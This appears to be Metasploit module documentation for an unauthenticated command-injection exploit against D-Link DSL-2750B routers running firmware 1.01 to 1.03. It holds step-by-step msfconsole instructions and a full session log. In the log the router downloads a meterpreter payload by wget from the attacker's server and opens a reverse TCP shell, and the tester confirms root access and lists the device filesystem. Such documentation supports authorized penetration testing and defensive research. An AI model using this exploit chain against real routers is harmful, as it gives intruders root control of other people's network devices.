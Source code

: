 ## Description

This module dlink_dsl2750b_exec_noauth exploits unauthenticated command injection vulnerability through "cli" parameter.
Vulnerable firmwares are 1.01 up to 1.03.

## Verification Steps 

  1. Start msfconsole
  2. Do : `use exploit/linux/http/dlink_dsl2750b_exec_noauth`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget method and executed giving us meterpreter session


## Scenarios 

```
msf > use exploit/linux/http/dlink_dsl2750b_exec_noauth 
msf exploit(linux/http/dlink_dsl2750b_exec_noauth) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(linux/http/dlink_dsl2750b_exec_noauth) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp 
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LHOST eth0
LHOST => eth0
msf exploit(linux/http/dlink_dsl2750b_exec_noauth) > set LPORT 5555
LPORT => 5555
msf exploit(linux/http/dlink_dsl2750b_exec_noauth) > run

msf exploit(linux/http/dlink_dsl2750b_exec_noauth) > run

[*] Started reverse TCP handler on 192.168.1.6:5555 
[*] 192.168.1.1:80 Checking target version...
[*] Using URL: http://0.0.0.0:8080/1M6nI0Or6FUiW
[*] Local IP: http://192.168.1.6:8080/1M6nI0Or6FUiW
[*] Client 192.168.1.1 (Wget) requested /1M6nI0Or6FUiW
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (1104216 bytes) to 192.168.1.1
[*] Meterpreter session 25 opened (192.168.1.6:5555 -> 192.168.1.1:48989) at 2018-05-14 05:30:49 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > ls -la
Listing: /
==========

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40755/rwxr-xr-x   2554    dir   2013-03-11 07:27:09 -0400  bin
40755/rwxr-xr-x   3       dir   2013-03-11 07:27:54 -0400  data
40755/rwxr-xr-x   2482    dir   2013-03-11 07:27:56 -0400  dev
40755/rwxr-xr-x   779     dir   2013-03-11 07:27:55 -0400  etc
40755/rwxr-xr-x   690     dir   2013-03-11 07:27:55 -0400  lib
100755/rwxr-xr-x  287124  fil   2013-03-11 07:27:55 -0400  linuxrc
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:01 -0500  mnt
40755/rwxr-xr-x   56      dir   2013-03-11 07:13:15 -0400  opt
40555/r-xr-xr-x   0       dir   1969-12-31 19:00:00 -0500  proc
40755/rwxr-xr-x   270     dir   2013-03-11 07:25:43 -0400  sbin
40755/rwxr-xr-x   0       dir   1969-12-31 19:00:00 -0500  sys
40755/rwxr-xr-x   0       dir   2016-10-08 07:54:13 -0400  tmp
40755/rwxr-xr-x   38      dir   2013-03-11 07:23:32 -0400  usr
40755/rwxr-xr-x   0       dir   2016-10-08 07:46:13 -0400  var
40755/rwxr-xr-x   2801    dir   2013-03-11 07:26:34 -0400  webs

meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.30)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```
